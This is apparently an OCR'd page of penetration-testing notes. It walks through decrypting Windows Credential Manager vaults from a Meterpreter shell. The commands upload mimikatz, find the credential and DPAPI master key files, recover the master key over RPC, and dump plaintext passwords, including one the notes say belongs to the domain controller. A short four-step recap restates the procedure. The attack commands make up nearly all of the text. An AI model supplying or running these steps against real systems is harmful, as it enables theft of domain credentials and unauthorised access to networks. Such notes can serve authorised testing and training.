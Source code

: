 
> This will dump the plain text password of the account that was stored in Credential Manager
In this case, its the DC.



**Cracking Vault via Metasploit**

in meterpreter shell:
```bash
upload <mimikatz.exe> C:\\Users\\Public\\mimikatz.exe
shell
cd c:\users\public

dir /a C:\users\<user.domain>\appdata\local\microsoft\credentials
# it should show the key path

mimikatz.exe
vault::cred

dpapi::cred /in:<credential path>\<key path>
# it should show the guidMasterKey
exit (mimikatz)

dir /a C:\users\<user.domain>\appdata\roaming\microsoft\protect
dir /a C:\users\<user.domain>\appdata\roaming\microsoft\protect\<SID directory>
grab the guidMasterKey

mimikatz.exe
dpapi::masterkey /in:<full path of guidMasterKey> /rpc
# it should show the master key value that we need to crack

dpapi::cred /in:<full path of credentials> /masterkey:<key value>
# it dumps the password
```

#### [+] 101


It looks complicated but its not.

There is 4 steps:
```bash
1. Get the key path:
run dir in appdata\local\microsoft\credentials

2. Get the guidMasterKey full path:
its in appdata\roaming\microsoft\protect\<SID>
we just need to find the SID directory running DIR 

3. Discover the key value:
mimikatz.exe
dpapi::masterkey /in:<full path of guidMasterKey> /rpc

4. Crack the key value:
dpapi::cred /in:<full path of credentials> /masterkey:<key value>
```

